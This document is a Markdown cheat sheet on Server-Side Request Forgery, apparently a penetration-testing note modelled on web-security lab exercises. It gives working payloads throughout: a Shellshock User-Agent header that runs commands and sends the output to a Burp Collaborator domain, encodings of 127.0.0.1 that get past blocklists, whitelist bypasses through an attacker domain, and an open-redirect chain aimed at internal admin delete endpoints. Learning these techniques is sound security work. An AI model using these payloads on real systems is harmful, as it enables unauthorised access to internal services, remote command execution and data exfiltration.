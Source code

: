 # 🔴 Server-Side Request Forgery (SSRF)

Induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:orange;">SSRF against the server itself</mark>

Attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface (EX: http://localhost/admin)

### <mark style="color:orange;">SSRF against other back-end systems</mark>

* Attacker can exploit the SSRF vulnerability to access the other interface by submitting a internal HTTP request (EX: http://192.168.1.105/admin)

### <mark style="color:orange;">Blind SSRF vulnerabilities</mark>

Response from the back-end request is not returned in the application's front-end response

**Find vulnerability**

Observe a DNS look-up for the supplied **Burp Collaborator domain**

**Example (Blind SSRF with Shellshock exploitation)**

```http
GET /path TTP/1.1
Host: test.net
...
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).aaabbbcccdddeeefff.burpcollaborator.net
...
Referer: http://192.168.0.1:8080
Upgrade-Insecure-Requests: 1
Connection: close
```

## <mark style="color:red;">Bypass</mark>

### <mark style="color:orange;">Bypass blacklist-based</mark>

* Change "127.0.0.1" to

```
http://2130706433
http://017700000001
http://127.1
http://127.0.1
http://0.0.0.0
http://0
http://0x7f000001
http://2130706433
http://017700000001
http://[::]:80
```

* Registering your own domain name that resolves to 127.0.0.1. You can use "spoofed.burpcollaborator.net" for this purpose
* Obfuscating blocked strings using URL encoding or case variation. Example

```
value=http://127.1/%25%36%31dmin/delete?username=carlos
```

### <mark style="color:orange;">Bypass whitelist-based</mark>

* Using "@" char `https://expected-host@evil-host.net`
* Using "#" char `https://evil-host#expected-host.net`
* Create a invalid domain `https://expected-host.evil-host.net`
* Use URL-encode characters to confuse the URL-parsing code `http://localhost:80%2523@evil-host.net/admin`

### <mark style="color:orange;">Bypassing SSRF filters via open redirection</mark>

**Exapmle-1**&#x20;

/product/nextProduct?currentProductId=6&<mark style="color:green;">path</mark>=<mark style="color:yellow;">http://192.168.0.68/admin</mark>

**Exapmle-2**

If "/product/stock" vulnerable to SSRF and "/nextProduct" vulnerable to OpenRedirect, Then

```http
// HTTP request

POST /product/stock vulnerable/1.1
Host: test.net
......
Connection: close

api=/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
